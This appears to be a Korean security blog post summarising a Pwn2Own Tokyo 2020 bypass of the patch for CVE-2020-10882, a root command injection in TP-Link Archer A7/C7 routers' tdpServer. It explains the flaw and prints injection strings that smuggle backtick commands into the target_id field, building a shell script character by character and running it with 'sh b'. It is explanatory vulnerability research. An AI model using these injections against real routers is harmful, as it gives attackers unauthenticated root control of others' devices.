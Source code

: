 ```yaml
---
title: "[하루한줄] CVE-2020-10882 Bypass"
author: idioth
tags: [idioth, command injection, tp-link, lua, tdpserver]
categories: [1day1line]
date: 2020-11-09 18:00:00
cc: false
index_img: /img/1day1line.png
---
```


## URL 

[Pwn2Own Tokyo2020](https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Tokyo2020/minesweeper.md)



## Target

- tdpServer daemon(*/usr/bin/tdpServer*) running on TP-Link Archer A7 and C7(AC1750), hardware version 5, MIPS Arch, firmware ver.200721 and 200628



## Explain

해당 취약점은 라우터의 LAN에 있는 공격자만 악용할 수 있지만 특별한 인증이 필요하지 않은 취약점입니다.

CVE-200-10882에서 `system(systemCmd)`에 의해 Command Injection 취약점이 존재하였습니다. 해당 취약점은 `system()` 사용 대신 lua 스크립트를 이용하여 `lua_onemesh_call(slave_mac)`을 통해 명령어를 실행함으로써 패치되었습니다. `lua_onemesh_call()`은 `luci.controller.admin.onemesh` lua 스크립트를 사용하며 인수를 전달하고 요청된 함수의 핸들러를 실행하는  `dispatch`라는 이름의 특별한 함수를 사용합니다. 이때 `sync_wifi_specified(slave_mac)`이 실행됩니다. `sync_wifi_specified()`는 매개 변수를 `target_id`로 `printf`를 사용하여 구성되며 json 내용으로 실제 명령이 실행됩니다. json을 escape 하면 root로 실행되는 lua script process에서 명령 실행이 가능합니다.

```json
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json", "timeout":5, "target_id":"<Controlled_Parameter>"}' &
```

slave_mac의 경우 `strncpy(slave_mac, *(char **)(iVar6 + 0x10), 0x11)`로 복사되며 `memset(slave_mac, 0, 0x424)`로 memset 됩니다. 또한 바이트 정렬로 인하여 slave_mac 변수는 0x12만큼 할당되며 17자까지 문자를 삽입할 수 있습니다.

```json
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf ';'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf '.'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf '/'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf 'q'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`sh b`'"}' &
```

